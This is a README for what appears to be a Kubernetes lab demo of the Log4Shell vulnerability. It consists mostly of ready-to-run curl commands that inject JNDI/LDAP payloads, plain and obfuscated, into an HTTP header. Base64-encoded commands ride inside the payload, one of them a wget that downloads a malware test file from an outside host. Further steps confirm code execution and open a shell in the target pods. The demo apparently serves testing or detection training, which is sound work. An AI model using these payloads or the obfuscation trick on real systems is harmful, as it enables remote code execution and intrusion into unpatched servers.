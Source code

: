 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Running the Demo](#running-the-demo)
- [Encode with base64 your command](#encode-with-base64-your-command)
- [Execute the attack without obfuscation](#execute-the-attack-without-obfuscation)
- [Execute the attack with obfuscation](#execute-the-attack-with-obfuscation)
- [Confirm that the code execution was successful](#confirm-that-the-code-execution-was-successful)
- [Connect to runnint pod](#connect-to-runnint-pod)
- [Delete file inside the container](#delete-file-inside-the-container)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

Running the Demo
----------------

kubectl config set-context $(kubectl config current-context) --namespace=dirty-net2

1. Get into the attacking host

```
kubectl exec -it pod-attack-machine -n dirty-net -- /bin/sh
```

2. Run the following two commands to execute the attack to the “vul-app1” container

```
curl -v vul-app1:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr-5cd59d5f4-2vcfv:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

Note: The command embedded in the HTTP header is

$ echo 'd2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK' | base64 -d wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/malware-sample





## Encode with base64 your command

```console
echo "touch /tmp/youHaveBeenPwned" | base64 -w0
dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==
```

## Execute the attack without obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Execute the attack with obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Confirm that the code execution was successful

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- ls -l /tmp
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- ls -l /tmp

```

## Connect to runnint pod

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- sh
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- sh
```

## Delete file inside the container

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- rm -f /tmp/youHaveBeenOwned
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- rm -f /tmp/youHaveBeenOwned
```
